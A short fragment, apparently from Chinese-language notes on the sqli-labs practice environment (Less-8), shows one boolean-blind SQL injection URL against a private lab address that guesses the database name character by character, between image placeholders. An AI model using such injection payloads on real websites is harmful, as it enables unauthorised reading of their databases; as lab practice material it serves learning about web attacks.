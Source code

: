 ![](file/image_KVvrxA287m.png)

```sql
//爆数据库
 http://192.168.65.128/sqli-labs/Less-8/?id=1' 
 and substr(database(),1,1)='s' --+
```

![](file/image_YPS5R_iKnw.png)
